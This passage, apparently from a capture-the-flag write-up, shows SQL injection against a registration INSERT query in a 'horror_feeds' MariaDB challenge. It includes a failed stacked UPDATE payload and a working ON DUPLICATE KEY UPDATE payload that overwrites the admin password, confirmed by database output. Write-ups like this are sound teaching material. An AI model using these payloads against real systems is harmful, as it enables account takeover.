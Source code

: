 The first thing I noticed was that the admin password hash does not look like a proper password hash. The hash in the database didn't match the one in `entrypoint.sh`:

```
a2/WbP0PCjwW4CKdq6G != $2a$12$BHVtAvXDP1xgjkGEoeqRTu2y4mycnpd6If0j/WbP0PCjwW4CKdq6G
```

Parts of the hash got interpreted as env variables and positional parameters because of the `$` signs, which resulted in an invalid hash.

![](https://media.tenor.com/-gS-ft4nRzkAAAAC/interesting-batman.gif)

Anyway, before diving into that *invalid hash* path, I decided to try to inject an UPDATE query after INSERT.

I tried with the following payload:

`hacker","aaa"); UPDATE users SET password = "test" WHERE username = "admin"; -- `

It failed with this response:

```json
{
  "error": {
    "message": [
      "2014",
      "Commands out of sync; you can't run this command now"
    ],
    "type": "ProgrammingError"
  }
}
```

Also, the logs outputed the following warning:

`[Warning] Aborted connection 11 to db: 'horror_feeds' user: 'user' host: 'localhost' (Got an error writing communication packets)`

It seems it's not possible to run a nested SQL query in MySQL. 

Luckily, it is possible to perform an UPDATE instead of an INSERT in MariaDB/MySQL. You can read about that feature [here](https://mariadb.com/kb/en/insert-on-duplicate-key-update/){:target="_blank"}.

The next payload I tried was the following:

`admin","aaa") ON DUPLICATE KEY UPDATE password = "test" -- `

It worked! 👻

![](/uploads/{{ page.permalink }}/ss15.png)

```
MariaDB [horror_feeds]> select * from users;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | test     |
+----+----------+----------+
1 row in set (0.001 sec)
```
